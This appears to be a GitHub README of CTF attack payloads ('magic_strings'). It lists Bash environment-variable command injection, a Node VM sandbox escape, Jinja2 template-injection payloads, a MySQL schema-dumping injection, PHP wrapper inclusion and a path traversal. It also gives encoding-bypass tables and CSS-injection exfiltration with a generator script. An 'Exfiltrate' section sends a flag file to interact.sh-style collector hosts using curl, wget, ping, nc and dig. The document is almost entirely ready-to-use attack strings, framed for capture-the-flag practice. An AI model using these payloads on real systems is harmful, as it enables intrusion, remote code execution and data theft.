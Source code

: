 # magic_strings
Handy bits for CTFs and life

### Bash 

#### ENV Vars
    BASH_ENV='$(id 1>&2)' bash -c 'echo hello'

    env $'BASH_FUNC_myfunc%%=() { id; }' bash -c 'myfunc'

#### Encoding

    $'\151\144'

### NodeJS

#### Node VM

Escape Node VM Sandbox

    this.constructor.constructor("return this.process")().mainModule.require("child_process").execSync("id").toString()

### Python

#### Jinja2 / Template Injection

    {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
    {{config.__class__.__init__.__globals__['os'].environ}}

### MySQL 

MySQL >=5.6

    concat(0x404f73616e64614d616c6974680a, @@innodb_version ,0x0a,user(),0x0a, schema(), (select (@x) from (select (@x:=0x00), (@number:=0),(select (0) from (mysql.innodb_table_stats) where (@x:=concat(@x,0x0a,lpad(@number:=@number+1,2,0),0x2e20,database_name, 0x202d3e20 ,table_name,0x202d3e20 ,length(table_name)))))x))

### PHP

    data://data:text/plain,<?php system("id")?>
    
    php://filter/convert.base64-encode/resource=index.php

### Exfiltrate

    curl -T /flag.txt xxxx.interct.sh
    wget --post-file /flag.txt xxxx.interct.sh
    wget -U `cat /flag.txt` xxxx.interct.sh
    wget `base64 -w0 /flag.txt`.xxxx.interct.sh
    ping here.xxx.interact.sh
    ping $(head -c 32 /flag|base64|tr -d "="|tr "+" "-"|tr "/" ".").xxx.interact.sh
    nc nchere.xxx.interact.sh 80
    dig dighere.xxx.interact.sh
    git clone githere.xxx.interact.sh

### Path Traversal

    curl --path-as-is grafana.example.com/public/plugins/alertmanager/../../../../../../../../tmp/flag

### Bypass

#### utf8 normalization

      " 	%C0%A2 	%E0%80%A2 	%F0%80%80%A2 	Double quote 	
      ' 	%C0%A7 	%E0%80%A7 	%F0%80%80%A7 	Single quote 	
      < 	%C0%BC 	%E0%80%BC 	%F0%80%80%BC 	Less-than sign 	
      > 	%C0%BE 	%E0%80%BE 	%F0%80%80%BE 	Greater-than sign 	
      . 	%c0%2e %C0%AE 	%E0%80%AE 	%F0%80%80%AE 	Full stop 	
      / 	%c0%2f %C0%AF 	%E0%80%AF 	%F0%80%80%AF 	Solidus 	
      \ 	%c0%5c %C1%9C %c0%80%5c %E0%81%9C 	%F0%80%81%9C 	Reverse solidus

### XSS

#### CSS Injection

Abuse unicode range to exfiltrate charset

```css
@font-face {
    font-family:poc;
    src:url('//colab.com/A');
    unicode-range:U+0041;
}
@font-face {
    font-family:poc;
    src:url('//colab.com/B');
    unicode-range:U+0042;
}
#secret {
    font-family:poc;
}
...
```
Generator

```python
import string
colab = "xxx.interact.sh"
select = "h1"
for l in string.ascii_letters:
  print("@font-face{font-family:poc;src:url('//"+l+"."+colab+"/"+l+"');unicode-range:U+00"+ hex(ord(l))[2:]+";}",end="")
print(select+"{font-family:poc;}")
```

Attribute selectors

Contains: 

```css
a[href*="flag{"] {
  ...
}
```

Starts with:

```css
[class^="flag{A"] {
  background:url('//colab.com/A');
}
[class^="flag{B"] {
  background:url('//colab.com/B');
}
```


## Resources

- [Payloads All The Things]( https://github.com/swisskyrepo/PayloadsAllTheThings/ )
- [Reverse Shells Generator]( https://www.revshells.com/ )
- [JS Deobfuscator]( https://www.seosniffer.com/javascript-deobfuscator )
- [De Obfuscate JS]( https://lelinhtinh.github.io/de4js/ )
- [XSS Cheat sheet]( https://portswigger.net/web-security/cross-site-scripting/cheat-sheet )
- [HackTricks]( https://book.hacktricks.xyz )
- [Compile Online]( https://rextester.com/ )
